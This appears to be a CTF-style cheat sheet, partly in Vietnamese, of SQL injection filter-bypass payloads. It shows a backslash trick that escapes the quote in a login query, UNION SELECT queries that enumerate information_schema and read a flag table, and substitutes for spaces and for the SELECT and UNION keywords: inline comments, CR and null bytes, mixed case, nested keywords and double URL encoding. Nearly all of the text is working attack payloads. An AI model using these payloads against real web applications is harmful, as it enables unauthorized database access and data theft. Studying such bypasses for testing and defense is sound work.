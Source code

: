 # BYPASS 

## Bypass '
```sql
username: \
password: UNION SELECT table_name FROM information_schema.tables WHERE table_name like "%flag%"-- -
UNION SELECT column_name FROM information_schema.columns WHERE table_name like "flag_304ad593"-- -
UNION SELECT flag_3e53dc FROM flag_304ad593-- -

=> Dạng : "select username from users where username='\'and password=' UNION SELECT ....'  ";
```
Đoạn `\'and password=` sẽ đc coi là tên username vì \' đã vô hiệu hóa dấu '

## Bypass space 

```sql
/**/
-1/**/or/**/1=1-- -  (-1 or 1=1-- -)
%0d (CR)
%00 (null byte)
%0b ()
%0c

```

## Bypass select 
```sql
Select 
SeLeCt
SELECT 
SELSELECTECT
SEL/**/ECT
%00SELECT   
%53%45%4c%45%43%54                   #encode url 1l
%2553%2545%254c%2545%2543%2554       #encode url 2l

```

## Bypass union
```sql
uNion
UniOn
UNUNIONION
UNUNIONION%0dSELSELECTECT%0d

```

## Replaced Keywords
```sql
UNunionION SEselectLECT
uni%0bon se%0blect    # bypass keywords in Sql 

```


